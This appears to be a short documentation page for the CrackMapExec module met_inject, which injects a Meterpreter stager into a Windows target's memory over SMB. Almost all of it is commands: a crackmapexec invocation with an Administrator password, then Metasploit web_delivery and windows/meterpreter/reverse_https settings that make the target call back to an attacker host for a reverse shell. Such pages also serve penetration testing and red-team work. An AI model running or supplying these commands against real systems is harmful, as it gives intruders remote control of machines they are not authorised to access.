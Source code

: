 # ✅ met\_inject

Downloads the Meterpreter stager and injects it into memory

### Modules Options

```
crackmapexec smb $TARGET -u Administrator -p qwerty12345 -M met_inject --options
```

```
[*] met_inject module options:

SRVHOST     IP hosting of the stager server
SRVPORT     Stager port
RAND        Random string given by metasploit
SSL         Stager server use https or http (default: https)

```

### Get a Reverse Shell

#### Metasploit Web Delivery

```
use exploit/multi/script/web_delivery
set SRVHOST 10.211.55.6
set SRVPORT 8443
```

MetasploitReverse Shell

```
set payload windows/meterpreter/reverse_https
set LHOST 10.211.55.6
set LPORT 443
```
